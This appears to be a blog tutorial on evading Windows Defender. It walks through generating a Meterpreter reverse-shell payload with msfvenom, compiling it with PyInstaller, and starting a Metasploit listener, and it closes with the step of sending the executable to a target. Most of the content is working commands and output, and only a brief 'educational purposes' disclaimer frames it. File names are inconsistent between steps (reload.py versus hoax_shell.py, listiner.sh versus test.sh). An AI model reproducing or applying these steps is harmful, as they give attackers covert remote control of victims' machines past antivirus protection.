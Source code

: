 ```yaml
---
title: Windows AV Evasion (msfvenom edition)
description: The easiest way to achieve a reverse shell bypassing Windows Defender
categories: [Hacking, Windows]
tags: [av-evasion, meterpreter, windows-defender]
---
```


> [!WARNING]  
> The entire article and the information shown is only for educational and informational purposes.

## Introduction

In this post, we'll explore a method to bypass Windows Defender using Python and Meterpreter to achieve a reverse shell.

## Step-by-Step Process

### 1. Creating the Payload

First, we'll use `msfvenom` to create the payload as a `.py` file using `python-reflection` for built-in obfuscation:

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.20 lport=443 -f python-reflection -o reload.py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 203846 bytes
Final size of python-reflection file: 1337649 bytes
Saved as: reload.py
```

### 2. Adding Required Libraries

We need to add `ctypes` since it's required by `python-reflection`:

```shell
nano reload.py 
```

### 3. Generating the Executable

We can create the executable using PyInstaller either from Windows or through `wine`:

Using Wine:
```shell
wine pyinstaller -F hoax_shell.py --onefile
```

Or directly in Windows:
```powershell
pyinstaller -F hoax_shell.py --onefile
```

### 4. Setting Up the Listener

Create a Metasploit resource file (`test.rc`):

```shell
use payload windows/x64/meterpreter_reverse_tcp
set lhost 192.168.1.20
set lport 443 
exploit
```

Start the listener:
```bash
msfconsole -r test.rc
```

### 5. Execution

Send the `.exe` to the target machine and execute it either through GUI (RDP) or remote command execution.

![](/assets/img/Anexos/rev_shell_AV_evasion.gif)

### Listener Script Usage

The script provides a listener for incoming connections:

```shell
$ ./listiner.sh

[!] Missing parameters.

[USE] ./test.sh <LHOST> <LPORT>

Parameters:
  <LHOST>   LOCAL IP
  <LPORT>   LOCAL PORT

Example: ./test.sh 192.168.1.20 443
```
